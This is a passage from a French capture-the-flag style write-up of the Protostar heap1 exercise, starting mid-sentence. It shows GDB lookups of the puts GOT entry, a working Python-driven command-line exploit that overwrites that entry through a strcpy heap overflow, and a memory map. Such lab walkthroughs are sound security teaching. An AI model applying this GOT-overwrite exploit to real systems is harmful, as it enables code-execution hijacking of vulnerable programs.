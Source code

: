 Pour le où j'ai choisi la `global offset table` et plus précisemment l'entrée pour la fonction `puts` car elle est appelée après les `strcpy`.

Pour obtenir l'adresse de `puts` dans la `GOT` on va utiliser GDB sans lancer le débug du binaire (ou alors avant que `puts` ne soit appellé une première fois sinon l'adresse de la libc aura pris la place) :

```nasm
(gdb) p puts
$1 = {<text variable, no debug info>} 0x80483cc <puts@plt>
(gdb) x/i 0x80483cc
0x80483cc <puts@plt>:   jmp    *0x8049774
```

L'adresse qui nous intéresse est donc `0x8049774`.

```shellsession
$ ./heap1  `python -c 'import struct; print struct.pack("<I", 0x8049774)*6'` `python -c 'import struct; print struct.pack("<I", 0x08048494)'`
and we have a winner @ 1673169368
```

Ca fonctionne !

Dans notre cas nous n'aurions pas pu écraser `_fini` ni `__DTOR_LIST__` (voir [Format Strings (Gotfault Security Community)](https://www.exploit-db.com/exploits/13239) par exemple) car ils sont sur une plage mémoire non écrivable :

```
(gdb) shell cat /proc/1682/maps
08048000-08049000 r-xp 00000000 00:10 2851       /opt/protostar/bin/heap1
08049000-0804a000 rwxp 00000000 00:10 2851       /opt/protostar/bin/heap1
0804a000-0806b000 rwxp 00000000 00:00 0          [heap]
b7e96000-b7e97000 rwxp 00000000 00:00 0 
b7e97000-b7fd5000 r-xp 00000000 00:10 759        /lib/libc-2.11.2.so
b7fd5000-b7fd6000 ---p 0013e000 00:10 759        /lib/libc-2.11.2.so
b7fd6000-b7fd8000 r-xp 0013e000 00:10 759        /lib/libc-2.11.2.so
b7fd8000-b7fd9000 rwxp 00140000 00:10 759        /lib/libc-2.11.2.so
b7fd9000-b7fdc000 rwxp 00000000 00:00 0 
b7fe0000-b7fe2000 rwxp 00000000 00:00 0 
b7fe2000-b7fe3000 r-xp 00000000 00:00 0          [vdso]
b7fe3000-b7ffe000 r-xp 00000000 00:10 741        /lib/ld-2.11.2.so
b7ffe000-b7fff000 r-xp 0001a000 00:10 741        /lib/ld-2.11.2.so
b7fff000-b8000000 rwxp 0001b000 00:10 741        /lib/ld-2.11.2.so
bffeb000-c0000000 rwxp 00000000 00:00 0          [stack]
```

## Level 2

Ce level a été assez décevant. En effet juste en jouant un peu avec le binaire et sans avoir une idée de son fonctionnement il est possible de le résoudre. L'objectif fixé est de faire afficher la chaine de caractères *you have logged in already!*

On va tout de même plonger un peu dans le code. Il s'agit d'une boucle infinie qui prend des commandes sur l'entrée standard.
